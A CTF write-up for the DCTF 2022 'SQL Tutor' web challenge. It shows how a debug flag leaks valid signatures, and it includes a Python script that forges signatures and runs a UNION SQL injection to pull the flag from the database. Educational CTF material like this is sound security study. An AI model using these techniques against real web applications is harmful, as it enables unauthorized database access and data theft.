

# DCTF 2022 SQL Tutor writeup

## Intro

**SQL Tutor** was a fun little Web challenge, scoring 200 points.

When accessing the website, I was presented with a simple Web interface. It let's me insert some text, and pick which query I want to use from a list of predefined SQL queries.



There is a simple blacklist filter, preventing usage of "dangerous" characters such as ", ', and also some strings like "SELECT", "UNION" and "ORDER BY".


## Network traffic analysis

Firing up Burp and viewing the traffic, I could see there is a simple HTTP API consisting of 2 endpoints.


**`/verify_and_sign_text` - Valid input**

(Input: "a")

The client-side code sends our input encoded as base64, and asks the server to do something with it invloving SHA1.

```
POST /verify_and_sign_text HTTP/2
...

text=YQ%3D%3D&alg=sha1
```

The server responds with some basic information, a signature looking like SHA1 and a mysterious `"debug":null` field.
```
HTTP/2 200 OK
...
{"status":"ok","trimmedText":"YQ==","signature":"96be85e65d1b2b44725580ca01ac70f534ed8be5","debug":null}
```

From the JS source, I found a commented out `debug=true` parameter:
```js
$.ajax({
  type: "POST",
  url: "/verify_and_sign_text",
  data: {
    // Backend devs said that the query should be base64 encoded
    text: btoa(contents),
    alg: "sha1",
    //debug:true
  },
})
```

Setting it and sending the request again, we get some nice, detailed output.

```json
{
   "status":"ok",
   "trimmedText":"YQ==",
   "signature":"96be85e65d1b2b44725580ca01ac70f534ed8be5",
   "debug":{
      "input":{
         "alg":"sha1",
         "text":"YQ=="
      },
      "steps":[
         "Selected sha1 algorithm ✅",
         "Decoded text from base64 ✅",
         "Trimmed and checked the text ✅",
         "Created signature: sha1(secret+sanitize(text)) ✅"
      ]
   }
}
```

So, the server is trimming and hashing our text, prefixed with some secret string - the hash becomes the "signature".

**`/verify_and_sign_text` - Invalid input**

Sending blacklisted strings in the base64-encoded input results in a different response.
```json
{
   "status":"error",
   "message":"Dangerous strings:[ \" ] in text!",
   "debug":{
      "input":{
         "alg":"sha1",
         "text":"Ig=="
      },
      "steps":[
         "Selected sha1 algorithm ✅",
         "Decoded text from base64 ✅"
      ]
   }
}
```

**Ideas**

At this point, I had some ideas:
- Maybe it's possible to find a (SHA1 collision)[https://shattered.io/], but that would be overkill + it would still not provide the secret required.
- The text trimming should be safe since it applies before validation and hashing
- The `sanitize()` call inside the `sha1()` did seem suspicious (maybe it's filtering some extra characters and doing decoding that will allow us to somehow bypass the original filter?)
- Finding the secret by using small inputs (it won't allow an empty input) and bruteforcing / searching for the cracked hash online
- Breaking the base64 parser
- Adding non-printable characters to the base64 payload
- Passing an array (`text[]=...`) as input
- Finding a query from the list that could allow injection without special characters

These directions turned out to yield uninteresting results. 

**/execute - Valid input**

After our text is signed, the JS code sends a POST request to `/execute` with the text and signature:
```
POST /execute HTTP/2
...
text=YQ%3D%3D&signature=96be85e65d1b2b44725580ca01ac70f534ed8be5&queryNo=0
```

Adding another `debug=true` to this request shows us what's going on.

```
{
   "status":"ok",
   "query":"SELECT * FROM users WHERE users.name='a'",
   "results":[
      
   ],
   "description":"This query selects all users with the name 'a'.",
   "debug":{
      "input":{
         "signature":"96be85e65d1b2b44725580ca01ac70f534ed8be5",
         "text":"YQ=="
      },
      "steps":[
         "Decoded text from base64 ✅",
         "Selected query #0 ✅",
         "Confirmed text and signature match ✅",
         "Executed query ✅"
      ]
   }
}
```

As expected, the server verifies the hash and allows the query to proceed if the hash matches.


**/execute - Invalid input**

I tried throwing some random text at `/execute` with `debug=true` and an unmatching signature.
```
{
   "status":"error",
   "message":"Invalid text signature, this incident will be reported!",
   "debug":{
      "input":{
         "signature":"96be85e65d1b2b44725580ca01ac70f534ed8be5",
         "text":"a"
      },
      "steps":[
         "Decoded text from base64 ✅",
         "Selected query #0 ✅"
      ],
      "compare":"e95d18c6c9fea0047af7fe1b3b2fe1f80b9450b9 !== 96be85e65d1b2b44725580ca01ac70f534ed8be5"
   }
}
```

Seriously..?

So, in case of mismatch it just gives you the correct hash for free.

## Solution

After a while, I've created a short script to encode and sign any input.

The remaining part was classic SQL injection with `UNION` to get the flag.

```py
import requests
import base64

def get_signature(text):
    r = requests.post('https://sqltutor.dragonsec.si/execute',
        data={
            'text': base64.b64encode(text).decode('utf-8'),
            'signature': 'FAKEEE',
            'debug': 'true',
        }).json()
    return r['debug']['compare'].split(' !== ')[0]

def inject(text, signature):
    print(requests.post('https://sqltutor.dragonsec.si/execute',
        data={
            'text': base64.b64encode(text).decode('utf-8'),
            'signature': signature,
            'debug': 'true',
            'queryNo': '0',
        }).json())

text = None

text = b"a' union select 1,2,3,flag from flags -- a"
signature = get_signature(text)
inject(text, signature)
```

And the result:
```
{
   "status":"ok",
   "query":"SELECT * FROM users WHERE users.name='a' union select 1,2,3,flag from flags -- a'",
   "results":[
      {
         "id":1,
         "name":"2",
         "surname":"3",
         "age":"dctf{Pump_7h3_s7r3am_h4s5_up!_353aa965}"
      }
   ],
   "description":"This query selects all users with the name 'a' union select 1,2,3,flag from flags -- a'.",
   "debug":{
      "input":{
         "signature":"664b65147e414f7f19239aeb88d3a012782bc857",
         "text":"YScgdW5pb24gc2VsZWN0IDEsMiwzLGZsYWcgZnJvbSBmbGFncyAtLSBh"
      },
      "steps":[
         "Decoded text from base64 ✅",
         "Selected query #0 ✅",
         "Confirmed text and signature match ✅",
         "Executed query ✅"
      ]
   }
}
```

_Let's go!_
